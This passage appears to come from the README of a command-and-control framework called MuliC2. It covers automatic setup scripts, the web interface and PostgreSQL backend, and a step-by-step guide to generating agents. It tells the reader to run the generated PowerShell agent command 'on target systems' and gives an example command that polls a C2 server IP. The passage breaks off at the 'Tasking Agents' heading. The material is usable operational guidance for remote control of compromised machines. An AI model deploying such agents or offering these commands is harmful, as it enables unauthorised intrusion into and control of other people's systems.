 ### 3. Automatic Setup
```bash
# Linux
sudo ./run-mulic2.sh

# Windows
.\run-mulic2.bat
```

The setup script will:
- Install and configure PostgreSQL
- Build the backend executable
- Install frontend dependencies
- Start both backend and frontend servers
- Initialize database with default profiles

## 🎯 Usage

### Starting the C2 Server

#### Linux
```bash
sudo ./run-mulic2.sh
```

#### Windows
```powershell
.\run-mulic2.bat
```

### Accessing the Interface
- **Frontend**: http://localhost:5173
- **Backend API**: http://localhost:8080 (or through TLS in unified mode)

### Generating Agents

1. **Navigate to Agents Tab**: In the web interface
2. **Select Profile**: Choose from available C2 profiles
3. **Configure Settings**: 
   - Server Host: Your C2 server IP
   - API Port: Backend API port (8080 by default)
   - Profile ID: Selected profile
   - Poll Interval: How often to check for tasks
4. **Generate Command**: Copy the generated PowerShell command
5. **Deploy Agent**: Run the command on target systems

### Example Agent Command
```powershell
.\Start-MuliAgent.ps1 -ServerHost 192.168.1.100 -ApiPort 8080 -ProfileId default -PollSeconds 5
```

### Tasking Agents

